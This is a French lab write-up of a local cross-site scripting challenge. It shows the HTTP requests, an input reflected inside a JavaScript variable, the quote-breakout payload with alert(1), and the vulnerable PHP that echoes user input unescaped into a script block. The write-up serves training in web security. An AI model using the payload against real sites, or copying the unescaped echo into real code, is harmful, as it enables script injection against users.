 # xss3

## Exploitation

A nouveau une fonctionnalité de recherche pour ce troisième challenge, mais le mot renseigné doit être un nom d'utilisateur :&#x20;

![](<../../../.gitbook/assets/image (1).png>)

Lorsque je renseigne un nom d'utilisateur, il n'est ni réfléchi dans un message d'erreur, ni en tant que valeur du champ :&#x20;

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever&submit=Envoyer
```

Je recherche alors le nom directement dans la réponse HTTP :&#x20;

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 1908
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html>
  <head>
    <title>XSS 3</title>
    <link rel="stylesheet" href="../static/css/bootstrap.min.css" />
  </head>
  <body>
    ...
    <script>
      var name="whatever";
    </script>
  </body>
</html>
```

Le nom d'utilisateur renseigné est donc présent en tant que valeur d'une variable Javascript. Je tente assez simplement de sortir de la valeur avec le `"` puis d'exécuter l'affichage de la modale. Le commentaire, à la fin de ma payload, va permettre de se débarrasser des caractères superflus provenant de la concaténation effectuée dans le code `whatever";alert(1);//` :

```http
POST /xss3/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 55
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss3/

name=whatever%22%3Balert%281%29%3B%2F%2F&submit=Envoyer
```

![](<../../../.gitbook/assets/image (15).png>)

## Analyse du code source

Le nom d'utilisateur renseigné est récupéré dans la variable `$username`. Cette variable est affichée grâce à la directive `echo` directement au sein d'un bloc Javascript en tant que valeur de la variable `name` :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['name'])) {
    $username = $_POST['name'];
  }
?>

<script>
    <?php if (isset ($username) && !empty ($username)): echo ("var name=\"$username\";");?>
    <?php endif; ?>
</script>
```
